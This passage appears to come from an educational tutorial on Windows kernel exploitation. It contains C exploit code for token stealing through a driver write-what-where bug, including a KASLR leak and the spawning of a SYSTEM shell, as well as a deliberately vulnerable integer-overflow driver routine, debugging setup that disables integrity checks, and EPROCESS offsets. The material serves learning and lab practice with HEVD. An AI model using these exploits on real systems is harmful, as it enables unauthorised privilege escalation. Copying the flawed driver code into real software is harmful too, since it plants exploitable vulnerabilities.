    return STATUS_SUCCESS;
}
```

**Using write-what-where for token stealing:**

```c
/*
 * Exploit: Use arbitrary write to replace process token
 *
 * Strategy:
 * 1. Leak kernel addresses (KASLR bypass)
 * 2. Find current process EPROCESS
 * 3. Find System process EPROCESS
 * 4. Copy System token to current process using write-what-where
 */

void exploit_www(HANDLE hDevice) {
    // Addresses obtained through information disclosure
    ULONG64 current_eprocess = 0xffffe00123456789;
    ULONG64 system_token     = 0xfffffa8012345678;  // System process token value

    // Token offset for Windows 10 21H2
    ULONG64 token_offset = 0x4B8;

    // Use the write-what-where to overwrite our token
    WRITE_INPUT input;
    input.Value   = system_token;                          // System's token
    input.Address = current_eprocess + token_offset;       // Our token location

    DWORD bytesReturned;
    DeviceIoControl(
        hDevice,
        IOCTL_WRITE_WHAT_WHERE,
        &input,
        sizeof(input),
        NULL, 0,
        &bytesReturned,
        NULL
    );

    // We now have SYSTEM privileges!
    printf("[+] Token replaced! Spawning SYSTEM shell...\n");
    system("cmd.exe");
}
```

### 4. Integer Overflow

```c
/*
 * Integer overflow leading to buffer overflow
 */

NTSTATUS VulnerableIntegerOverflow(PVOID UserBuffer, ULONG Count) {
    ULONG totalSize;

    // BUG: Integer overflow!
    // If Count = 0x40000001 and element size = 4:
    // totalSize = 0x40000001 * 4 = 0x100000004
    // But ULONG is 32-bit, so it wraps to 0x00000004!
    totalSize = Count * sizeof(ULONG);

    // Allocates only 4 bytes instead of ~1GB!
    PVOID kernelBuffer = ExAllocatePoolWithTag(PagedPool, totalSize, 'IntO');

    if (kernelBuffer) {
        // Copies WAY more data than the 4-byte buffer can hold!
        RtlCopyMemory(kernelBuffer, UserBuffer, Count * sizeof(ULONG));
    }

    return STATUS_SUCCESS;
}
```

---

## Essential Debugging Setup

### WinDbg Kernel Debugging Setup

**Option 1 — Virtual Machine Debugging (Recommended for learning):**

```text
Host Machine (Debugger)                  VM (Debuggee)
┌─────────────────────┐                ┌─────────────────────┐
│  WinDbg              │    Named Pipe  │  Windows 10/11 VM   │
│  (Kernel Debugger)   │◄──────────────►│  (Debug Target)     │
│                      │    or Serial   │                      │
│  Commands:           │    or Network  │  bcdedit /debug ON   │
│  bp, !process, dt    │                │  bcdedit /dbgsettings│
└─────────────────────┘                └─────────────────────┘
```

**Setting up the debuggee VM:**

```batch
REM Run these commands in an elevated CMD on the VM:

REM Enable kernel debugging
bcdedit /debug ON

REM Set debug connection type (choose one):

REM Option A: Named Pipe (VMware/VirtualBox)
bcdedit /dbgsettings serial debugport:1 baudrate:115200

REM Option B: Network debugging (faster, recommended)
bcdedit /dbgsettings net hostip:192.168.1.100 port:50000
REM This will output a key — save it!

REM Option C: Disable integrity checks (for loading test drivers)
bcdedit /set nointegritychecks ON
bcdedit /set testsigning ON

REM Reboot the VM
shutdown /r /t 0
```

**Connecting WinDbg from the host:**

```text
For Serial/Pipe:
  File → Kernel Debug → COM → Port: \\.\pipe\com_1, Baud: 115200

For Network:
  File → Kernel Debug → Net → Port: 50000, Key: (key from bcdedit output)
```

### Essential WinDbg Commands

```text
; ===============================================
; Process and Thread Commands
; ===============================================

; List all processes
kd> !process 0 0

; Find specific process
kd> !process 0 0 cmd.exe

; Detailed process info
kd> !process ffffe001234abcd0 7

; Switch to process context
kd> .process /i ffffe001234abcd0
kd> g
kd> .reload /user

; Current process
kd> !process -1 0

; ===============================================
; Memory and Structure Commands
; ===============================================

; Display EPROCESS structure
kd> dt nt!_EPROCESS ffffe001234abcd0

; Display specific fields
kd> dt nt!_EPROCESS ffffe001234abcd0 UniqueProcessId Token ImageFileName

; Display TOKEN structure
kd> !token ffffe001234abcd0+0x4b8

; Read memory
kd> dq ffffe001234abcd0 L8
kd> db ffffe001234abcd0 L100
kd> dd ffffe001234abcd0 L10

; ===============================================
; Module and Symbol Commands
; ===============================================

; List kernel modules
kd> lm

; Find function address
kd> x nt!NtCreateFile
kd> x nt!Nt*

; Set breakpoint
kd> bp nt!NtCreateFile
kd> bp MyDriver!DriverIoControl

; Conditional breakpoint
kd> bp nt!NtOpenProcess ".if (@rcx == 0x4) {} .else {gc}"

; ===============================================
; Pool and Memory Commands
; ===============================================

; Analyze pool allocation
kd> !pool ffffe001234abcd0

; Find pool allocations by tag
kd> !poolfind MyTg

; Pool statistics
kd> !poolused 2

; ===============================================
; Security Commands
; ===============================================

; Display process token
kd> !token -n @$proc

; Display privileges
kd> !token ffffe001234abcd0+4b8

; Display ACLs
kd> !sd <security_descriptor_address>

; ===============================================
; Crash Analysis
; ===============================================

; Analyze blue screen
kd> !analyze -v

; Stack trace
kd> k
kd> kv
kd> kp

; All thread stacks
kd> !process 0 1f
```

### Setting Up a Driver Development Environment

```powershell
# 1. Install Visual Studio 2022 with C++ workload
# 2. Install Windows SDK
# 3. Install Windows Driver Kit (WDK)

# Enable test signing on your test VM
bcdedit /set testsigning ON

# Load a driver manually
sc create VulnDriver type= kernel binPath= "C:\Drivers\VulnDriver.sys"
sc start VulnDriver

# Check if driver loaded
sc query VulnDriver
driverquery /v | findstr VulnDriver

# Stop and remove driver
sc stop VulnDriver
sc delete VulnDriver
```

---

## Exploitation Workflow Summary

Here is the typical workflow for a kernel exploit from start to finish:



### Putting It All Together — Complete Token Stealing Exploit Flow

```c
/*
 * Complete Kernel Exploit Example — Token Stealing via Arbitrary Write
 *
 * Target: Hypothetical vulnerable driver with write-what-where
 * OS: Windows 10 21H2 x64
 *
 * This is a simplified educational example.
 * Real exploits require additional steps for stability.
 */

#include <windows.h>
#include <stdio.h>

// Target driver IOCTL
#define IOCTL_WRITE_WHAT_WHERE 0x222004

typedef struct _WRITE_WHAT_WHERE {
    ULONG64 What;
    ULONG64 Where;
} WRITE_WHAT_WHERE;

// EPROCESS offsets for Windows 10 21H2
#define OFFSET_UNIQUE_PROCESS_ID    0x440
#define OFFSET_ACTIVE_PROCESS_LINKS 0x448
#define OFFSET_TOKEN                0x4B8

// NtQuerySystemInformation for KASLR bypass
typedef NTSTATUS(WINAPI* pNtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);
#define SystemModuleInformation 11

typedef struct _RTL_PROCESS_MODULE_INFORMATION {
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES;

/*
 * Step 1: KASLR Bypass — Leak kernel base address
 */
ULONG64 leak_kernel_base() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtQuerySystemInformation NtQSI = (pNtQuerySystemInformation)
        GetProcAddress(hNtdll, "NtQuerySystemInformation");

    ULONG len = 0;
    NtQSI(SystemModuleInformation, NULL, 0, &len);

    RTL_PROCESS_MODULES* modules = (RTL_PROCESS_MODULES*)malloc(len);
    NtQSI(SystemModuleInformation, modules, len, &len);

    ULONG64 kernel_base = (ULONG64)modules->Modules[0].ImageBase;
    printf("[+] Kernel base: 0x%llx\n", kernel_base);
    printf("[+] Module: %s\n",
        modules->Modules[0].FullPathName + modules->Modules[0].OffsetToFileName);

    free(modules);
    return kernel_base;
}

/*
 * Step 2: Use arbitrary write to perform token stealing
 */
void do_write(HANDLE hDevice, ULONG64 what, ULONG64 where) {
    WRITE_WHAT_WHERE www;
    www.What = what;
    www.Where = where;

    DWORD br;
    DeviceIoControl(hDevice, IOCTL_WRITE_WHAT_WHERE,
                    &www, sizeof(www), NULL, 0, &br, NULL);
}

/*
 * Main exploit function
 */
int main() {
    printf("=== Windows Kernel Exploit ===\n");
    printf("=== Token Stealing via Write-What-Where ===\n\n");

    // Step 1: Open handle to vulnerable driver
    HANDLE hDevice = CreateFileA("\\\\.\\VulnDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL,
        OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Cannot open driver. Error: %d\n", GetLastError());
        return 1;
    }
    printf("[+] Driver handle: 0x%p\n", hDevice);

    // Step 2: KASLR bypass
    ULONG64 kernel_base = leak_kernel_base();

    // Step 3: In a real exploit, you would:
    //   a. Find current EPROCESS (via info leak or other primitive)
    //   b. Walk ActiveProcessLinks to find System (PID 4)
    //   c. Read System's token value
    //   d. Write System's token to current process's Token field
    //
    // This requires an arbitrary READ primitive in addition to write.
    // For brevity, we show the concept:

    printf("[*] In a full exploit:\n");
    printf("    1. Leak current EPROCESS address\n");
    printf("    2. Walk ActiveProcessLinks to find PID 4\n");
    printf("    3. Read System token from EPROCESS+0x%X\n", OFFSET_TOKEN);
    printf("    4. Write System token to current process EPROCESS+0x%X\n", OFFSET_TOKEN);
    printf("    5. Spawn cmd.exe with SYSTEM privileges\n\n");

    // Hypothetical addresses (would be obtained through info leaks)
    // ULONG64 system_token_value = read_kernel(system_eprocess + OFFSET_TOKEN);
    // do_write(hDevice, system_token_value, current_eprocess + OFFSET_TOKEN);
    // system("cmd.exe");  // Now runs as SYSTEM!

    printf("[+] Exploit concept demonstrated.\n");

    CloseHandle(hDevice);
    return 0;
}
```

---

## Learning Resources & Next Steps

### Books

| Book | Author | Level |
|------|--------|-------|
| **Windows Internals Part 1 (7th Ed)** | Yosifovich, Ionescu, Russinovich | Beginner-Intermediate |
| **Windows Internals Part 2 (7th Ed)** | Yosifovich, Ionescu, Russinovich | Intermediate-Advanced |
| **Windows Kernel Programming** | Pavel Yosifovich | Intermediate |
| **Rootkits and Bootkits** | Matrosov, Rodionov, Bratus | Advanced |
| **A Guide to Kernel Exploitation** | Perla, Oldani | Advanced |
| **The Art of Memory Forensics** | Ligh, Case, Levy, Walters | Intermediate |

### Practice Labs

| Resource | Description | Link |
|----------|-------------|------|
| **HackSys Extreme Vulnerable Driver (HEVD)** | Purpose-built vulnerable Windows driver for learning kernel exploitation | [GitHub](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) |
| **FLARE VM** | Windows-based security research VM with all tools pre-installed | [GitHub](https://github.com/mandiant/flare-vm) |
| **Windows Kernel Debugging Docs** | Official Microsoft debugging documentation | [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/) |
| **OSR Online** | Windows driver development community and learning resources | [OSR](https://www.osr.com/) |

### HEVD — Your First Kernel Exploit Lab

The **HackSys Extreme Vulnerable Driver** is the best starting point for practicing kernel exploitation:

```powershell
# 1. Clone HEVD
git clone https://github.com/hacksysteam/HackSysExtremeVulnerableDriver.git

# 2. Build the driver (requires WDK)
# Or download pre-built from releases

# 3. Load on test VM (with test signing enabled)
sc create HEVD type= kernel binPath= "C:\HEVD\HEVD.sys"
sc start HEVD

# 4. Verify it's loaded
driverquery | findstr HEVD
```

**HEVD vulnerabilities to practice (in recommended order):**

1. ✅ Stack Buffer Overflow
2. ✅ Write-What-Where (Arbitrary Write)
3. ✅ Use-After-Free
4. ✅ Pool Overflow
5. ✅ Integer Overflow
6. ✅ Type Confusion
7. ✅ Uninitialized Stack Variable
8. ✅ Uninitialized Heap Variable
9. ✅ Double Fetch (Race Condition)
10. ✅ NULL Pointer Dereference
11. ✅ Insecure Kernel Resource Access

### Online Courses & Tutorials

| Resource | Description |
|----------|-------------|
| **[Offensive Security AWE/EXP-401](https://www.offsec.com/)** | Advanced Windows Exploitation course |
| **[HackTheBox — Windows Kernel Exploitation Path](https://www.hackthebox.com/)** | Guided learning path |
| **[Connor McGarr's Blog](https://connormcgarr.github.io/)** | Excellent Windows kernel exploit writeups |
| **[j00ru's Blog](https://j00ru.vexillium.org/)** | Advanced Windows kernel security research |
| **[Alex Ionescu's Blog](https://www.alex-ionescu.com/)** | Windows internals co-author's blog |

---

## Quick Reference Cheat Sheet

### Key Structures and Offsets (Windows 10/11 21H2+)

```text
Structure               Offset    Field
────────────────────────────────────────────────
KPCR                    +0x180    Prcb
KPRCB                   +0x008    CurrentThread (KTHREAD*)
KTHREAD                 +0x220    ApcState.Process (EPROCESS*)
EPROCESS                +0x440    UniqueProcessId
EPROCESS                +0x448    ActiveProcessLinks
EPROCESS                +0x4B8    Token
EPROCESS                +0x5A8    ImageFileName
TOKEN                   +0x040    Privileges
TOKEN                   +0x048    AuthenticationId
GS Segment (x64)        +0x188    CurrentThread (shortcut)
```

### Key Kernel Functions to Know

```text
Memory:
  ExAllocatePool2()          — Allocate pool memory
  ExFreePoolWithTag()        — Free pool memory
  MmGetSystemRoutineAddress() — Get kernel function address
  ProbeForRead/Write()       — Validate user-mode pointers

Process:
  PsGetCurrentProcess()      — Get current EPROCESS
  PsLookupProcessByProcessId() — Find EPROCESS by PID
  PsReferencePrimaryToken()  — Get process token

Security:
  SeSinglePrivilegeCheck()   — Check if privilege is held
  SePrivilegeCheck()         — Check multiple privileges
  ObReferenceObjectByHandle() — Get kernel object from handle

I/O:
  IoCreateDevice()           — Create device object
  IoCreateSymbolicLink()     — Create user-accessible device name
  IoCompleteRequest()        — Complete an IRP
```

### Common Pool Tags to Know

```text
Tag     Component              Notes
────    ─────────────────────  ──────────────────────
Proc    Process objects        EPROCESS allocations
Thrd    Thread objects         ETHREAD allocations
Toke    Token objects          Access tokens
File    File objects           FILE_OBJECT
Obhd    Object headers         Object manager
CM      Registry               Configuration Manager
MmSt    Memory manager          Section objects
Io      I/O manager            IRP allocations
```

---

## Conclusion

Understanding Windows internals is the **foundation** for kernel exploitation. Without this knowledge, exploits are just magic bytes — with it, they become logical manipulation of well-understood data structures.

### Your Learning Path


**Start with HEVD, master WinDbg, read Windows Internals, and you will be ready to tackle real kernel vulnerabilities.**

---

## References

- [Windows Internals 7th Edition — Microsoft Press](https://learn.microsoft.com/en-us/sysinternals/resources/windows-internals)
- [HEVD — HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
- [Microsoft Kernel Debugging Documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/)
- [Windows Driver Kit (WDK)](https://learn.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)
- [Connor McGarr — Kernel Exploitation Blog](https://connormcgarr.github.io/)
- [j00ru — Windows Kernel Security Research](https://j00ru.vexillium.org/)
- [Abusing GDI for Ring 0 Exploit Primitives — Nicolas Economou](https://www.coresecurity.com/core-labs/articles/abusing-gdi-ring-0-exploit-primitives)
- [MSRC — Microsoft Security Response Center Blog](https://msrc.microsoft.com/blog/)

---

